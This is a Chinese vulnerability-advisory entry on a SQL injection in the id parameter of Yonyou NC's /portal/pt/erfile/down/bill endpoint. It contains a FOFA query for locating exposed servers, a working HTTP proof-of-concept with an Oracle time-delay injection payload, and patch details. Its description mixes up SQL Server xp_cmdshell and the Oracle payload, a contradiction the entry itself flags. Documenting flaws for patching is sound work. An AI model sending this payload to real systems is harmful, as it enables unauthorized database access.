


# 用友NC down/bill id SQL 注入

## 条目说明

- 对象与具体问题：用友NC；down/bill id SQLi
- 版本、配置及部署条件：声明<=6.5；Oracle延时
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 描述使用SQL Server xp_cmdshell而PoC是Oracle DBMS_PIPE，两类后果不可混写
- XVE误放cnvd；HTTP无代码围栏
- 保留notice544及2024-04-28 NC65补丁线索，校验算法未列

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

用友NC //portal/pt/erfile/down/bill接口的id参数存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## 影响范围

用友网络科技股份有限公司-NC version<= 6.5

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：icon_hash="1085941792" && body="/logo/images/logo.gif"

POC/EXP1：

```http
GET /portal/pt/erfile/down/bill?pageId=login&id=1'+AND+4563=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65),5)-- HTTP/1.1
Host: 10.0.30.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```








## 修复方案

**官方修复：**

用友安全中心已发布官方公告，请尽快前往下载更新补丁：https://security.yonyou.com/#/noticeInfo?id=544

打对应补丁，重启服务，各版本补丁获取方式如下：

1.NC65方案

补丁名称：patch_65_portal_down的sql注入安全漏洞修复

补丁编码：NCM_NC6.5_000_109902_20240428_GP_266284425

校验码：

e2fddcaa75eb3e5d15ca4a72700e55712aca9eaa32ca90ce3b2c85d3b3447958


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
